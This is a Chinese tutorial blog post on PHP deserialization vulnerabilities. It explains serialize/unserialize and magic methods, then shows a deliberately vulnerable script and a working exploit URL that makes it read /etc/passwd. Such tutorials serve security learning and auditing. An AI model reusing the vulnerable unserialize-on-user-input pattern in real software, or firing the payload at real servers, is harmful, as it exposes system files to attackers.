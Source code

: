 ```yaml
---
layout: post
title: php 反序列化
tags: [代码审计,php]
---
```

## 基础知识
### 序列化与反序列化
序列化是指把对象转化为包含字节流的字符串，用来在网络中传输和存储，php 中使用 serialize() 函数序列化对象；反序列化是将字符串恢复为原来的对象， php 中使用 unserialize() 方法反序列化对象。
序列化一个对象

```php
<?php
class User
{
        public $name='alice';
        public $age = 18;
        public function PrintData()
        {
                echo 'User: '.$this->name.' is '.$this->age.' years old.<br/>';
        }
}
$user = new User();
$user->PrintData();
echo serialize($user);
?>
```
输出的结果和序列化的结果如图
![img](http://p04hnmyh8.bkt.clouddn.com/WechatIMG63.jpeg)
使用这个结果反序列化一个对象
```php
<?php
class User
{
        public $name='alice';
        public $age = 18;
        public function PrintData()
        {
                echo 'User: '.$this->name.' is '.$this->age.' years old.<br/>';
        }
}

$usr = unserialize('O:4:"User":2:{s:3:"age";i:20;s:4:"name";s:4:"John";}');
$usr->PrintData();
?>
```
反序列化的结果如图
![img](http://p04hnmyh8.bkt.clouddn.com/WechatIMG66.jpeg)
### php magic 方法
魔术方法是指在 php 中存在一些特定的方法，这些方法用户通常不会主动调用，而是在特定的时机被 php 自动调用。

__construct() 构造方法，在对象被实例化的时候调用，__destruct() 析构方法，对象被销毁前调用,__sleep() 在对象序列化时被调用,__wakeup() 在对象被反序列化时被调用，__toString() 在对象被当做字符串使用时被调用。
## 漏洞产生的原因
漏洞产生的原因是unserialize()函数的参数可控。如果代码中存在魔术方法,而且模式方法的代码可控，那么就可能产生漏洞。
## 漏洞利用
logfile.php 文件如下
```php
<?php
class LoadFile
{
        public $filename = 'error.log';
        public function __toString()
        {
                return file_get_contents($this->filename);

        }
}
class User
{
    public $age = 0;
    public $name = '';

    public function __toString()
    {
        return 'User ' . $this->name . ' is ' . $this->age . ' years old. <br />';
    }
}
$obj = unserialize($_GET['usr_serialized']);
echo $obj;

?>

```

写一个利用代码，序列化要读取的文件对象
```php
<?php
include 'logfile.php';
$file = new loadFile();
$file->filename = '/etc/passwd';
echo serialize($file);


?>


```
注入，就可以读取 /etc/passwd 文件的内容了。

http://0.0.0.0:8000/logfile.php?usr_serialized=O:8:%22LoadFile%22:1:{s:8:%22filename%22;s:11:%22/etc/passwd%22;}


